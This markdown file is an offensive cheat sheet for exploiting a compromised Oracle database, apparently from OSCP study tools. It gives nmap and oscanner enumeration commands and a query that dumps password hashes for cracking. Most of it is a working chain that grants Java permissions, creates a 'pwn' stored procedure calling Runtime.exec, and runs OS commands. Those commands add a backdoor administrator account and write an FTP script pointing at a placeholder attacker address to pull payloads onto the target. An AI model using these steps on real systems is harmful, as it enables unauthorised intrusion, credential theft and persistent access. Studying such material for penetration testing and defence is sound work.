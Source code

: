 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

### Get the Database Version:
`SELECT * FROM V$VERSION`

### List all Tables Owned by DB User:
`SELECT table_name FROM user_tables;`

### Get the Current Database Name:
`SELECT NAME FROM v$database;`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious curly brace '{','}', escaping issue with the driver used by dbeaver. This must be done as a SYSTEM-level DBA account. This is just a precautionary step to ensure that we do, in fact, have permissions to create the Java stored procedure that we will use to execute commands. In most cases, we don't have these permissions, but because we are SYSTEM-level DBA, we have permission to assign these permissions to ourself.

```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `mycmd` and a method in the class called `execCommand`.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.* This Java creates a class called "pwn" that we can instantiate objects from. Thus we can do `object_name('C:\WINDOWS\System32\cmd.exe');` to execute commands right from the SQLPlus> shell.

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/
```
If successful, you will see *Procedure Created*. We can then call  it as `pwn_cmd('C:\WINDOWS\System32\CMD.EXE');` as so:

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec pwn_cmd('net user trevelyn trevelyn /add');`

`exec pwn_cmd('net localgroup Administrators trevelyn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whole process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session state and you will have to start over again anyways.

**CAVEAT**
Some "commands" are actually built into shells. So, `echo`, for instance, is part of MSDOS.EXE and not an actual binary on the file system. This means that you cannot simply do:

`exec pwn_cmd('echo connect x.x.x.x > C:\ftp.script');`

As the object will throw an exception stating tha the handle is invalid. To execute shell built-ins, you can call the shell directly wi the command as an argument. For instance,

`exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt');`

Will spawn a new MSDOS.EXE instance, and run the `echo` built-in shell command. This is useful to know if you do not have any other means of file system access and you want to [use FTP to pull payloads from the attacker onto the target system,](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/ftp.md) or to create batch files and execute them directly from the SQLPlus shell itself.
